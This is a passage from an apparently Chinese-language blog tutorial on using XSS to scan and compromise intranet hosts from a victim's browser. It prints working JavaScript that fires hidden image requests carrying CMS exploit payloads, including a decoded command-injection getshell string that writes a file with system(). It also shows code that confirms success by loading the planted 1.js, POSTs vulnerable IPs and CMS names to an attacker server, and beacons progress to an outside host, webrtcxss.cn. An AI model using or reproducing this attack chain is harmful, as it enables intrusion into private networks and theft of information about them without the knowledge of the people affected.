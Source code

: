 ```javascript
img.setAttribute("scr",vulCmsInfo);
img.setAttribute("style","display:none;");
document.getElementsByTagName("body")[0].appendChild(img);
```
至于为什么要使用setTimeout函数来延迟2秒钟执行，是因为之前也说过浏览器是无法同时判断那么多的img请求。因为这里只有一个所以我使用了2秒，真实情况下可以改为20秒。
然后建立一个script标签，用于判断1.js是否生成成功，如果生成成功，就说明漏洞存在，交给下一个函数处理，如果不存在，就此打住。因为onload不会调用vulConfirm函数。
至于为什么要判断1.js文件，就是我之前所说的getshell生成的代码。在数据中是这样的：

![](/images/use-xss-automation-invade-intranet/10.png)

是一段base64密文，解开后，内容如下：`/vul/heihei.php?a=system('echo 1 >> ../1.js');`
而在后端发送给前端的时候，我已经解密了。如同上面代码中：
`$vulInfo = base64_decode($cmsvul->where('cms="'.$existenceCmsInfo.'"')->getField("vulinfo"));`
而在浏览器中代码是这样：

![](/images/use-xss-automation-invade-intranet/11.png)

接下来就是setTimeout函数的真正的用处了。请注意这段代码：
`scriptTag.setAttribute("src","http://"+info.getAttribute('data-ipadder')+"/1.js");`
在script中把src的赋值成检测目标站点是否存在1.js。如果存在就运行onload里的vulConfirm函数。而vulConfirm函数就在下一节。

## 0x07 检测内网主机中的漏洞是否真实存在（下篇）：

vulConfirm函数的内容很简单，只有给服务端发送的代码。
```javascript
function vulConfirm(cmsConfirmInfo){
    stage(4)
    ipAjax = new XMLHttpRequest();
    ipAjax.open('POST', sendExistenceVul, false);
    ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
    ipAjax.send('cms='+ cmsConfirmInfo.getAttribute("data-cmsinfo") + '&vulip='+ cmsConfirmInfo.getAttribute("data-vulip") +'&onlystring=' + onlyString);
}
```

1. cms参数是存在漏洞的CMS信息
2. vulip是存在漏洞的IP地址
3. onlystring是唯一标识符，用于服务端判断


## 0x08 stage的作用：

stage函数代码如下：
```javascript
function stage(num){
    var updataStage = document.createElement("img");
    updataStage.setAttribute("src","http://webrtcxss.cn/Api/stage/onlystring/"+onlyString+"/updata/"+num);
    updataStage.setAttribute("style","display:none;");
    document.getElementsByTagName("body")[0].appendChild(updataStage);
}
```
就是一个img标签，发送get请求到服务端，告诉服务端代码运行到哪里了。在平台中的反馈如图：
